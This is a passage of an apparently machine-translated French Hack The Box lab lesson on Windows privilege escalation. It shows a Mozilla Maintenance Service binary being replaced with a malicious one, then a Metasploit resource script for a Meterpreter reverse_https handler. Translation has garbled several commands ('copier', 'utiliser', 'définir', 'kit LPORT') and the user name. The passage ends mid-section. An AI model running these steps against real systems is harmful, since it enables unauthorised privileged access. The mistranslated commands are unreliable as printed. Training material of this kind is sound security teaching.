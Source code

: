 L'exploit s'exécute et l'exécution de `icacls` affiche à nouveau l'entrée suivante pour notre utilisateur : `WINLPE-WS02\htb-student:(F)`. Cela signifie que notre utilisateur htb-student a un contrôle total sur le binaire maintenanceservice.exe, et nous pouvons le remplacer par une version non corrompue de notre binaire malveillant.

Vérification des autorisations du nouveau fichier

```
C:\htb> icacls 'C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe'

C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe NT AUTHORITY\SYSTEM:(F)
                                                                           INTÉGRÉ\Administrateurs :(F)
                                                                           WINLPE-WS02\htb-étudiant :(F)

```

#### Remplacement du fichier par un binaire malveillant

Nous pouvons remplacer le `maintenanceservice.exe` binaire dans `c:\Program Files (x86)\Mozilla Maintenance Service` par une bonne copie de travail de notre binaire malveillant créé précédemment avant de démarrer le service. Dans cet exemple, nous avons téléchargé deux copies du binaire malveillant dans `C:\Users\htb-student\Desktop`, `maintenanceservice.exe` et `maintenanceservice2.exe`. Déplaçons la bonne copie qui n'a pas été corrompue par l'exploit `maintenanceservice2.exe` dans le répertoire Program Files, en veillant à renommer le fichier correctement et à supprimer le `2` ou le service ne démarrera pas. La commande `copy` ne fonctionnera qu'à partir d'une fenêtre cmd.exe, pas d'une console PowerShell.

Remplacement d'un fichier par un binaire malveillant

```
C:\htb> copier /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

         1 fichier(s) copié(s).

```

#### Script de ressource Metasploit

Ensuite, enregistrez les commandes ci-dessous dans un [Resource Script](https://docs.rapid7.com/metasploit/resource-scripts/) fichier nommé `handler.rc`.

Script de ressource Metasploit

```
utiliser exploit/multi/gestionnaire
définir PAYLOAD windows/x64/meterpreter/reverse_https
définir LHOST <notre_ip>
kit LPORT 8443
exploiter

```

#### Lancement de Metasploit avec le script de ressources
